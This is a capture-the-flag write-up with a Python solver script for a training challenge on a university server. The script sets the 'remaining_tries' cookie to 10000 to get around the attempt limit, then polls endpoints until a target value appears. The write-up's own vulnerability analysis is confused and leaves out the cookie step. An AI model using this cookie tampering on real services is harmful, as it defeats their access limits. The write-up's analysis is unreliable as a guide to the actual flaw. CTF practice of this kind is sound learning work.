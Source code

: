 # Challenge "Python requests Again" Writeup

## Vulnerability: Lack of Input Validation and Session Integrity

### Where: Parsing and processing server responses, and handling user input

### Impact: The code may be susceptible to unexpected server responses or manipulations in user input, leading to unintended behavior or exploitation. Additionally, there might be potential vulnerabilities related to session integrity.

**NOTE**: The provided code interacts with a web server, extracts values from its responses, and performs actions based on these values. Two functions, `get_target_value` and `get_current_value`, use regular expressions to parse specific information from the server response.

## Steps to reproduce:

1. The code establishes a session using the `requests.Session()` object to persist cookies between requests.

2. Accesses the first link (`/hello`) to set the user cookie and retrieve the target value from the server response using the `get_target_value` function.

3. Enters a loop to continuously access the second link (`/more`) until the current value matches the target value.

4. Within the loop, retrieves the current value from the server response using the `get_current_value` function.

5. Compares the current and target values. If they are equal, the loop breaks, indicating that the desired condition is met.

6. After the loop, accesses the third link (`/finish`) and prints the response.

**Observations:**

- The code relies on the assumption that the server will respond in a specific format, and any deviation might lead to extraction errors or unexpected behavior.

- Lack of input validation may make the code vulnerable to changes in the server's response structure.

- The session handling is basic, and there is no explicit validation to ensure the integrity of the session.

## Code:

```python
import requests
import re

def get_target_value(input_string):
    # Define the pattern to match "target" followed by a number
    pattern = re.compile(r'target (\d+)')

    # Search for the pattern in the input string
    match = pattern.search(input_string)

    # If a match is found, return the target value as an integer
    if match:
        target_value = int(match.group(1))
        return target_value
    else:
        # Return None if no match is found
        return None

def get_current_value(input_string):
    # Define the pattern to match "Your current value is:" followed by a number
    pattern = re.compile(r'Your current value is: (\d+)')

    # Search for the pattern in the input string
    match = pattern.search(input_string)

    # If a match is found, return the current value as an integer
    if match:
        current_value = int(match.group(1))
        return current_value
    else:
        # Return None if no match is found
        return None

link = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23054"

# Create a session to persist the cookies between requests
s = requests.Session()

# Access the first link to set the user cookie
response1 = s.get(link + "/hello")
print(s.cookies)
s.cookies.set('remaining_tries', '10000')
print(response1.text)
target_value = get_target_value(response1.text)
print(target_value)

# Access the second link to get number
i = 0
while(i != -1):
   response2 = s.get(link + "/more")
   current_value = get_current_value(response2.text)
   print(response2.text)
   if (target_value == current_value):
       break;
    
response3 = s.get(link + "/finish")
print(response3.text)
